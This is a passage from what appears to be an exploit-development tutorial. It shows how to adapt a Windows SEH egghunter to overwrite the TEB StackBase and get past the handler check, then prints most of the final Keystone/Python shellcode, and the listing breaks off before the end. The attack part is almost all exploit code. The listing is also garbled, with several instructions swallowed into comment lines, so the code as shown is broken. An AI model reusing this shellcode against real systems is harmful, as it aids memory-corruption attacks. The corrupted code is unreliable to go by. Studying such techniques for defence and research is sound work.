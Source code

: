 The egghunter already gathered the address of the `except_handler` function dinamically, so we could substract a small number of bytes from it (not much, so the StackBase is still higher than our `_EXCEPTION_REGISTRATION_RECORD` structure) and use that to overwrite the StackBase value.
This is what is updated in the egghunter:
```python
# overwrite ExceptionList in the TEB with a pointer 
# to our new _EXCEPTION_REGISTRATION_RECORD structure 
" mov dword ptr fs:[ebx], esp ;" 
# subtract 0x04 from the pointer
# to exception_handler 
" sub ecx, 0x04 ;" 
# add 0x04 to ebx 
" add ebx, 0x04 ;" 
# overwrite the StackBase in the TEB to the address -4, which is in ECX
# this way, Stackbase will be lower than our except_handler function!
" mov dword ptr fs:[ebx], ecx ;"
```

Now the verification is done. Remember that this module does not have SafeSEH so we don't need to bypass it, but it would be another protection to bypass.

The final SEH egghunter would be this one:
```python
from keystone import *  
CODE = (  
" start: "  
 # jump to a negative call to dynamically  
 # obtain egghunter position" jmp get_seh_address ;"  
" build_exception_record: "  
 # pop the address of the exception_handler  
 # into ecx" pop ecx ;"  
 # mov signature into eax  
" mov eax, 0x74303077 ;"  
 # push Handler of the  
 # _EXCEPTION_REGISTRATION_RECORD structure" push ecx ;"  
 # push Next of the  
 # _EXCEPTION_REGISTRATION_RECORD structure" push 0xffffffff ;"  
 # null out ebx  
" xor ebx, ebx ;"  
 # overwrite ExceptionList in the TEB with a pointer  
 # to our new _EXCEPTION_REGISTRATION_RECORD structure" mov dword ptr fs:[ebx], esp ;"  
# subtract 0x04 from the pointer (address) to exception_handler  
" sub ecx, 0x04 ;" # add 0x04 to ebx so it points to TEB StackBase field instead of the first element of TEB  
" add ebx, 0x04 ;"  
 # overwrite the StackBase in the TEB  
" mov dword ptr fs:[ebx], ecx ;" " is_egg: "  
 # push 0x02  
" push 0x02 ;"  
 # pop the value into ecx which will act  
 # as a counter" pop ecx ;"  
 # mov memory address into edi  
" mov edi, ebx ;"  
 # check for our signature, if the page is invalid we  
 # trigger an exception and jump to our exception_handler function" repe scasd ;"  
 # if we didn't find signature, increase ebx  
 # and repeat" jnz loop_inc_one ;"  
 # we found our signature and will jump to it  
" jmp edi ;"  
" loop_inc_page: "  
 # if page is invalid the exception_handler will  
 # update eip to point here and we move to next page" or bx, 0xfff ;"  
" loop_inc_one: "  
 # increase ebx by one byte  
" inc ebx ;"  
```